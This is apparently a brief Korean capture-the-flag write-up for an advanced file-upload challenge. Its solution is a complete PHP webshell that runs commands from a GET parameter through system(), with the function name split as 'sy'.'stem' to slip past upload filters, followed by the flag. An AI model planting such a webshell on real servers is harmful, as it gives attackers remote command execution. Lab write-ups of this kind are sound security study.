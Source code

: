 # File Upload (Adv)
필터링이 많아졌지만 일반 File Upload 문제와 같은 웹쉘로 Solve 하였다.

```php
<html>
    <meta http-equiv="Content-Type" content="text/html; charset=EUC-KR" />
    <body>
        <form method="get">
            <input type="text" name="cmd" size="50">
            <input type="submit" value="Run">
        </form>
        <pre>
            <?php
            if($_GET['cmd'])
            {
                $sy = "sy"."stem";
                $result = $sy($_GET['cmd']);
                echo "{$result}";
            }
            ?>
        </pre>
    </body>
</html>
```

## Flag
flag{hide_on_webshell}